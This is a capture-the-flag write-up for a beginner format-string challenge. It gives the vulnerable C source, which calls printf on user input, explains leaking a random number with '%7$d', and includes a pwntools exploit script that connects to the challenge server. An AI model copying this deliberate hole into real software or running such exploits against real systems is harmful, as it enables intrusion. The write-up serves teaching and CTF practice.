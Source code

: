 ## 4mats
![4mats](images/4mats.png)

### Description
>Author: Enyei\
>ets get to know each other\
>nc fun.chall.seetf.sg 50001\
>For beginners:\
>https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/ \
>MD5: ceb6336c44a38f093de9bfb3e3902a0

### Gain Shell
This is just a basic formatstring vuln challenge. The source code was given, and it look like this.
```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

char name[16];
char echo[100];
int number;
int guess;
int set = 0;
char format[64] = {0};


void guess_me(int fav_num){
    printf("Guess my favourite number!\n");
    scanf("%d", &guess);
    if (guess == fav_num){
        printf("Yes! You know me so well!\n");
	system("cat flag");
        exit(0);}
   else{
       printf("Not even close!\n");
   }
       
}


int main() {

mat1:
    printf("Welcome to SEETF!\n");
    printf("Please enter your name to register: %s\n", name);
    read(0, name, 16);

    printf("Welcome: %s\n", name);

    while(1) {
mat2:
        printf("Let's get to know each other!\n");
        printf("1. Do you know me?\n");
        printf("2. Do I know you?\n");

mat3:
        scanf("%d", &number);


        switch (number)
        {
            case 1:
                srand(time(NULL));
                int fav_num = rand() % 1000000;
		set += 1;
mat4:
                guess_me(fav_num);
                break;

            case 2:
mat5:
                printf("Whats your favourite format of CTFs?\n");
		read(0, format, 64);
                printf("Same! I love \n");
		printf(format);
                printf("too!\n");
                break;

            default:
                printf("I print instructions 4 what\n");
		if (set == 1)
mat6:
                    goto mat1;
		else if (set == 2)
		    goto mat2;
		else if (set == 3)
mat7:
                    goto mat3;
		else if (set == 4)
                    goto mat4;
		else if (set == 5)
                    goto mat5;
		else if (set == 6)
                    goto mat6;
		else if (set == 7)
                    goto mat7;
                break;
        }
    }
    return 0;
}
```

We can leak the **fav_num** with formatstring vuln at offset 7, just input `%7$d`.\
![pointytail](images/4mats2.png)
For prevent **fav_num** to random again, we need set the **set** value to 4 first then leak the favnum.\
After that just input anything but not 1 or 2, the it will jump to default and because set value was 4, it will go to **mat4** and call the **guess_me()** function.\
Now just input the number and got the flag.

Full script:

```py
from pwn import *
from sys import *

elf = context.binary = ELF("./vuln")
p = process("./vuln")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

HOST = 'fun.chall.seetf.sg'
PORT = 50001

cmd = """
b*main
"""

if(argv[1] == 'gdb'):
	gdb.attach(p,cmd)
elif(argv[1] == 'rm'):
	p = remote(HOST,PORT)

p.sendline(b'Linz')
for i in range(4):
	p.sendline(b'1')
	p.sendline(b'123')

p.sendline(b'2')
p.sendlineafter(b"?\n", b'%7$d')

p.interactive()
```